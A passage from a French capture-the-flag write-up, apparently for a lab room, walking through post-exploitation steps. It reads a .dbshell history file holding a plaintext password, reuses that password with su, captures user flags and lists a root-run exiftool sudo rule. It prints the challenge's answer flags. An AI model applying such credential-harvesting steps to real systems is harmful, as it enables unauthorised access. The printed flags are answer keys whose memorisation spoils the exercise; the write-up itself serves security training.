```bash
-rw-r--r-- 1 root root  312 May 21 20:43 .wget-hsts
-rw------- 1 stux stux   46 May 22 19:42 user.txt
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

On obtient un shell.  
On remarque un utilisateur stux.  
Dans le répertoire stux on voit un fichier .dbshell.  
On lit le fichier .dbshell on trouve le flag et des identifiants.  
Le flag est : thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}  

**What is the user.txt flag?**  

```bash
www-data@ubuntu:/home/stux$ su stux 
su stux
Password: p4ssw0rdhack3d!123

stux@ubuntu:~$ cat user.txt
cat user.txt
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}
```

Avec les identifiants on se connecte sous l'utilisateur stux.   
On lit le fichier user.txt et on a le flag.   
Le flag est : thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}   

**What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000**  

```bash
stux@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```
